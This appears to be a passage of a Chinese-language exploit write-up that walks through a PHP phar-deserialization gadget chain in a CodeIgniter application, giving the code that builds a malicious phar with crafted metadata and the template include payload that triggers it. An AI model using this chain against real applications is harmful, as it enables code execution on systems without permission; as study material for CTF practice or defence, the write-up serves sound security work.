 echo urlencode(serialize($obj1));

}

这里因为query是在DB_driver中的，所以，db对象应该是CI_DB_mysqli_driver

![97f5853642bc457166877deaa2f64cda.png](img/5b662c6c23fecef350b6a011b1f23c4f.png)

image.png

生成phar文件：

public function payload(){

$obj1 = $this->cache->redis;

$obj2 = $this->session;

$obj3 = $this->db;

$obj2->set($obj3);

$obj1->set($obj2);

$phar = new Phar("phar.phar"); //后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$phar->setMetadata($obj1); //将自定义的meta-data存入manifest

$phar->addFromString("test.txt", "test"); //添加要压缩的文件

//签名自动计算

$phar->stopBuffering();

}

上传phar文件到tmp下面，之后调用：{{include file="php:phar:///tmp/xxxx/xx.phar"}}即可